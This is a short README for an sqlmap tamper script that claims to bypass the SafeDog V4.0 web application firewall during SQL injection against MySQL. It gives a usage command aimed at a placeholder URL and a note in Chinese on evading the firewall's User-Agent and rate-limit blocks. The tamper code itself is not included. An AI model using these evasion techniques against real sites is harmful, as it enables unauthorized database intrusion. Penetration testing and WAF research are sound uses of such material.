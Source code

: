 # sqlmap-tamper


Bypass SafeDog V4.0


Version: 1.0


Date: 2018-04-18


Author: Kyrie403


Copyright (c) Kyrie403


GitHub: https://github.com/kyrie403





# Requirements

MYSQL > 5.0

SafeDog V4.0





# Usage:
```
python sqlmap.py -u http://test.com/test.php?id=1 --tamper=bypasssafedogv4 --random-agent --dbms MYSQL --delay=0.5
```

安全狗V4.0会根据User-Agent拦截sqlmap, 所以需要加上参数--random-agent; 访问过于频繁也会被拦截, --delay=0.5





